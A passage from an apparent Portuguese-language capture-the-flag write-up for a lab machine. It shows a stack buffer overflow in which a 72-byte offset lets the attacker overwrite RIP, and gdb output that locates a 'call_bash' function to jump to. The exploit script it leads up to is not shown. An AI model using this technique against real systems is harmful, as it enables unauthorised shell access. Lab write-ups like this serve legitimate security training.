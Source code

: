 <img src="/img/thm/thm-anonymousplayground-12.png">

Como podemos ver, ao enviar 72 A + 6 B, nosso endereço RIP foi preenchido com os B, o que significa que temos total controle em como o programa vai se comportar.

O que precisamos fazer é enviar um buffer de 72 caracteres para preencher o offset, e em seguida enviar o endereço da função `call_bash`, assim seremos direcionados para a função.

Observando o comando `info functions`, podemos obter o endereço da função.

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x00000000004004e0  _init
0x0000000000400510  puts@plt
0x0000000000400520  system@plt
0x0000000000400530  printf@plt
0x0000000000400540  gets@plt
0x0000000000400550  setuid@plt
0x0000000000400560  sleep@plt
0x0000000000400570  _start
0x00000000004005a0  _dl_relocate_static_pie
0x00000000004005b0  deregister_tm_clones
0x00000000004005e0  register_tm_clones
0x0000000000400620  __do_global_dtors_aux
0x0000000000400650  frame_dummy
0x0000000000400657  call_bash
0x00000000004006d8  main
0x0000000000400710  __libc_csu_init
0x0000000000400780  __libc_csu_fini
0x0000000000400784  _fini
```
O endereço da função é `0x0000000000400657`, agora precisamos fazer um script simples em python para exploração.
